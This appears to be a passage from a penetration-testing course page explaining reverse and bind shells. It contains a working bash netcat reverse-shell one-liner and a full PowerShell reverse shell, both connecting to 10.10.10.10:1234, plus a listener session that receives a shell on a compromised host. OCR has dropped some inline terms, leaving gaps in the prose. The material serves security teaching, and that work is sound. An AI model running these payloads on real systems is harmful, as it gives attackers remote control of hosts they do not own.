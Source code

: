 Code: bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

Code: powershell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

We can utilize the exploit we have over the remote host to execute one of the above commands, i.e., through a Python exploit or a Metasploit module, to get a reverse connection. Once we do, we should receive a connection in our listener:`netcat`

  Types of Shells

```shell-session
zunderrubb@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, after we received a connection on our listener, we were able to type our command and directly get its output back, right in our machine.`netcat`

A is handy when we want to get a quick, reliable connection to our compromised host. However, a can be very fragile. Once the reverse shell command is stopped, or if we lose our connection for any reason, we would have to use the initial exploit to execute the reverse shell command again to regain our access.`Reverse Shell``Reverse Shell`

---

## Bind Shell

Another type of shell is a . Unlike a that connects to us, we will have to connect to it on the listening port.`Bind Shell``Reverse Shell``targets'`

Once we execute a , it will start listening on a port on the remote host and bind that host's shell, i.e., or , to that port. We have to connect to that port with , and we will get control through a shell on that system.`Bind Shell Command``Bash``PowerShell``netcat`

---

#### Bind Shell Command

Once again, we can utilize [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md) to find a proper command to start our bind shell.
